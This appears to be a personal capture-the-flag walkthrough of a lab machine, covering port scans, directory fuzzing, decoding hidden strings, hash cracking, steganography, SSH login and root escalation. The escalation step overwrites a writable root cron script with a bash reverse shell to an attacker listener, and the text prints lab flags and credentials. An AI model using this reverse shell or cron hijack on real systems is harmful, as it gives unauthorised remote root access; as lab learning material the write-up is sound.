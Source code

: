 ### Nmap
```
┌─[glack@parrot]─[~/Desktop/THM/easy_peasy]
└──╼ $nmap -sV -sT -A 10.10.177.226 -oN nmap.txt
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-28 14:22 IST
Nmap scan report for 10.10.177.226
Host is up (0.13s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.16.1
|_http-title: Welcome to nginx!
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: nginx/1.16.1

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.77 seconds
```


```
┌─[glack@parrot]─[~/Desktop/THM/easy_peasy]
└──╼ $nmap -T5 --min-rate=10000 -p- 10.10.177.226

PORT      STATE SERVICE
80/tcp    open  http
6498/tcp  open  unknown
65524/tcp open  unknown

```


```
nmap -sV -sT -p 80,6498,65524 10.10.177.226 -oN nmap.txt

PORT      STATE SERVICE VERSION
80/tcp    open  http    nginx 1.16.1
6498/tcp  open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
65524/tcp open  http    Apache httpd 2.4.43 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```


### HTTP

1. enumerating the ngix URL

```

─[glack@parrot]─[~/Desktop/THM/easy_peasy]
└──╼ $ffuf -w /usr/share/wordlists/small.txt:FUZZ -u http://10.10.177.226/FUZZ -e php,html -t 50

hidden                  [Status: 301, Size: 169, Words: 5, Lines: 8, Duration: 132ms
```

on visiting the /hidden page, we are give a image with some german text. Translating the german texts, it results in caution of using elevator message.

2. Apache HTTPD URL

`http://10.10.177.226:65524/robots.txt`

```
User-Agent:*
Disallow:/
Robots Not Allowed
User-Agent:a18672860d0510e5ab6699730763b250
Allow:/
This Flag Can Enter But Only This Flag No More Exceptions
```

3. Also found another comment hidden in `view-source:http://10.10.177.226:65524/index.html`
```  <span class="floating_element">
          Apache 2 It Works For Me
	<p hidden>its encoded with ba....:ObsJmP173N2X6dOrAgEAL0Vu</p>
```

on decoding with base62, we get
`ObsJmP173N2X6dOrAgEAL0Vu` to `/n0th1ng3ls3m4tt3r`


4. On visiting we are given another encoded message
![[Pasted image 20230728145216.png]]

`940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81`

this was a has can cracked the has using

```
┌─[glack@parrot]─[~/Desktop/THM/easy_peasy]
└──╼ $john --wordlist=easypeasy.txt --format=gost forjohn.txt

mypasswordforthatjob (?)

```

5. Got fed up here and went for the writeup

![[Pasted image 20230728161438.png]]

Cracked the hash `a18672860d0510e5ab6699730763b250` at 
`https://md5hashing.net/hash/md5/a18672860d0510e5ab6699730763b250`

we get `flag{1m_s3c0nd_fl4g}`

6. We also had to download the image 
```
 $wget http://10.10.177.226:65524/n0th1ng3ls3m4tt3r/binarycodepixabay.jpg

```

extract the content using

```
┌─[glack@parrot]─[~/Desktop/THM/easy_peasy]
└──╼ $steghide extract -sf binarycodepixabay.jpg 
Enter passphrase:  mypasswordforthatjob
"secrettext.txt"
```

```
─[glack@parrot]─[~/Desktop/THM/easy_peasy]
└──╼ $cat secrettext.txt 
username:boring
password:
01101001 01100011 01101111 01101110 01110110 01100101 01110010 01110100 01100101 01100100 01101101 01111001 01110000 01100001 01110011 01110011 01110111 01101111 01110010 01100100 01110100 01101111 01100010 01101001 01101110 01100001 01110010 01111001
```

binary text can be decoded to `iconvertedmypasswordtobinary`


### Shell


1. logged into ssh as boring
```
boring@kral4-PC:~$ cat user.txt 
User Flag But It Seems Wrong Like It`s Rotated Or Something
synt{a0jvgf33zfa0ez4y}
```

ROT13

```
flag{n0wits33msn0rm4l}
```
``
### Priv ESC

1. Cronjob running 
```
cd /var/www/ && sudo bash .mysecretcronjob.sh
```

since file was writable, changed the contents to a reverse shell

`bash -i >& /dev/tcp/10.17.24.189/9999 0>&1`

```
┌─[glack@parrot]─[~/Desktop/shellgen]
└──╼ $nc -lnvp 9999
listening on [any] 9999 ...
connect to [10.17.24.189] from (UNKNOWN) [10.10.177.226] 49826
bash: cannot set terminal process group (1865): Inappropriate ioctl for device
bash: no job control in this shell

root@kral4-PC:/var/www# 
```

```
root@kral4-PC:~# cat .root.txt
cat .root.txt
flag{63a9f0ea7bb98050796b649e85481845}
```
